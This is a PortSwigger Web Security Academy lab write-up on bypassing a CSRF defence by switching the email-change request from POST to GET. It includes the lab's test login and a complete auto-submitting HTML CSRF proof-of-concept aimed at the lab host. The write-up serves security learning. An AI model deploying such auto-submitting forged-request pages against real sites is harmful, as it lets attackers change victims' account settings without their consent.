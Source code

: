 ```yaml
---
title: 'Lab: CSRF where token validation depends on request method'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF/針對CSRF Token與同源政策的繞過手段"
---
```


# Lab: CSRF where token validation depends on request method
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`


## Recon
1. Login and update email to trace the package
Like the previous lab, we first login to the website and update the email. At the same time, we can trace update email package shown below:
![](https://i.imgur.com/ju0fDUQ.png)
We can notice that the carried data including `csrf_token`
2. According to [从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618) and [CSDN write up](https://blog.csdn.net/ZripenYe/article/details/120793710)
    :::info
    We know that using some technique can bypass this protection $\to$
        1. <font color="FF0000">**Delete `csrf_token` data**</font>
        2. <font color="FF0000">**change `POST` method to `GET` method**</font>

    In this lab, we use the 2nd method to bypass CSRF
    :::
![](https://i.imgur.com/U0mBdv8.png)
You can see that the response status is 302 which means it's a good way to forge a CSRF package

## Exp - Change POST to GET to bypass CSRF
Follow the self-created package at previous lab
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>
 
    <form action="https://0a9700ef04043a66801b0d0e00d10084.web-security-academy.net/my-account/change-email?email=bernie6401%40gmail.com" method="GET">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/lKFkGTy.png)
:::

## Reference
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)